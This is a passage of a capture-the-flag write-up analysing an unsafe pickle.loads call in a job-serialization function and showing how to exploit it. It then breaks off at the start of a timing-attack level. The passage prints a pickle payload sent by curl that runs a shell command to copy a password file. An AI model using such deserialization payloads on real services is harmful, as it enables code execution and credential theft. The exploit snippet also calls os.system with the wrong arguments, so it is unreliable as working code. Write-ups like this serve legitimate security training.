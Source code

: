 After inspecting the code, we concentrate in the suspicious **deserialize** function that contains the unsafe module [pickle](https://docs.python.org/2/library/pickle.html):

```py
def deserialize(serialized):
    logger.debug('Deserializing: %r' % serialized)
    parser = re.compile('^type: (.*?); data: (.*?); job: (.*?)$', re.DOTALL)
    match = parser.match(serialized)
    direction = match.group(1)
    data = match.group(2)
    job = pickle.loads(match.group(3))
    return direction, data, job
```

This is used later in the **serialize** function:

```py
@staticmethod
def serialize(direction, data, job):
    serialized = """type: %s; data: %s; job: %s""" % (direction, data, pickle.dumps(job))
    logger.debug('Serialized to: %r' % serialized)
    return serialized
```

So, the program serializes jobs with pickle, and  sends them to a series of workers to deserialize and process the job. Once again, the attack surface is in the user input, which is not properly sanitized: this function allows arbitrary data to  be sent to **; job**.

We can exploit it by making the serialization code execute arbitrary commands by supplying a string such as **; job: <pickled>**. This will run some Python code that will give us the password  when unpickled. A great module for this task is [Python's os.system](https://docs.python.org/2/library/os.html#os.system), which executes  commands in a subshell.



An example of  exploit in Python is the follwing:

```py
import pickle, os
HOST = 'localhost:9020'

os.system("/usr/bin/curl", ['', HOST, '-d', \
    "bla; job: cos\nsystem\n(S'cat /home/level05/.password \
    > /tmp/pass'\ntR."], {})
```





---
## Level 6: Timing Attack


And we have reached the sixth level!

The goal in this level is to read the password from */home/the-flag/.password*. To complete this  challenge, another **setuid** binary  is given, which can be used to guess the password:
